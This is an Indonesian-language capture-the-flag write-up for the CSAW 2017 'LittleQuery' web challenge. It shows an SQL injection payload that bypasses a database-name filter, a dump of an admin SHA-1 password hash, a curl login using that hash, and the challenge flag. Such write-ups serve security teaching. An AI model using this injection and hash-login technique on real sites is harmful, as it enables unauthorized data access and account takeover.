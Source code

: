 ```yaml
---
private: 'false'
layout: post
featured: false
published: true
comments: true
modified: 2017-09-18
date: 2017-09-18
title: Writeup CSAW 2017 LittleQuery - 200
tags: csaw2017
mathjax: false
imagefeature: 
description: Writeup CSAW 2017 LittleQuery - 200
category: Web Exploitation
chart: null
---
```



## Problems

```
LittleQuery
I've got a new website for BIG DATA analytics!

http://littlequery.chal.csaw.io
```


## POC

Di source code pada halaman index kita bisa menemukan ada source yang di comment

```html

<!--
<div class="col-md-4">
    <h2>For Developers</h2>
    <p>Check out our <a href="/api/db_explore.php">API</a></p>
</div>
-->
```


kita bisa melakukan explore terhadap database mereka menggunakan api yang tersedia,
ada 2 mode untuk mengexplor databasenya yaitu `mode={schema|preview}` schema untuk melihat schema dari
table atau database.

so kita gunakan schema `http://littlequery.chal.csaw.io/api/db_explore.php?mode=schema` untuk melakukan
list available databases ditemukan ada database namanya `littlequery`, kemudian list table apa saja yang 
ada pada database littlequery `http://littlequery.chal.csaw.io/api/db_explore.php?mode=schema&db=littlequery`
so kita dapat ada table `user`

```javascript

{
    tables: [
        "user"
    ]
}
```

kemudian untuk melakukan list kolom pada table user gunakan `http://littlequery.chal.csaw.io/api/db_explore.php?mode=schema&db=littlequery&table=user`
dan di dapatkan

```javascript

{
    columns: {
        uid: "int(11)",
        username: "varchar(128)",
        password: "varchar(40)"
    }
}
```

untuk melakukan dump datanya kita bisa gunakan mode preview ke `http://littlequery.chal.csaw.io/api/db_explore.php?mode=preview&db=littlequery&table=user`
tapi ternyata ada filter yang melarang untuk melakukan preview terhadap database `littlequery`

setelah mencoba menlakukan injek terhadap parameter db dan table kita bisa memanipulasi parameter db sehingga
tidak match dengan == "littlequery" kita bisa menggunakan # sebagai comment

illustrasi kodingan yang digunakan adalah sebagai berikut

```php

$db = addslashes($_GET['db']);
$table = addslashes($_GET['table']);

if($db == "littlequery"){
    die("Deny");
}

$query = "SELECT * from `".$db."`.".$table."`";
```

kita bisa melakukan bypass dengan menggunakan payload sebagai berikut:

```
http://littlequery.chal.csaw.io/api/db_explore.php?mode=preview&db=littlequery`.`user`%23&table=foobar`
```

$query akan jadi seperti berikut 

```php

SELECT * from `littlequery`.`user`#`.`foobar`

//query yang tereksekusi adalah => SELECT * from `littlequery`.`user`

$db = "littlequery`.`user`#" // jadi kita gak kena deny lagi
```

didapatkan user dan password yang di hash 

```javascript

[
    {
        uid: "1",
        username: "admin",
        password: "5896e92d38ee883cc09ad6f88df4934f6b074cf8"
    }
]
```

kita tidak harus mencari plain-text dari SHA-1 tersebut karena website tersebut menerima login dengan
hashed password bukan dengan plaintext password diketahui dari script yang ada di login.js

```javascript

$(".form-signin").submit(function () {
    var $password = $(this).find("input[type=password]");
    $password.val(CryptoJS.SHA1($password.val()).toString());
});
```

kita bisa kirim POST data dengan curl `curl -X POST http://littlequery.chal.csaw.io/login.php --data "username=admin&password=5896e92d38ee883cc09ad6f88df4934f6b074cf8" -v`
ambil cookie yang di kirimkan response `Set-Cookie: PHPSESSID=6cidmmh[...]cd63qr9nhgb7; path=/` kemudian
set cookie ke browser kalian untuk berpindah ke state login dan bisa akses ke `/query.php`


di temukan flag `flag{mayb3_1ts_t1m3_4_real_real_escape_string?}`

![Flag](https://cdn.pbrd.co/images/GKSIR6m.png)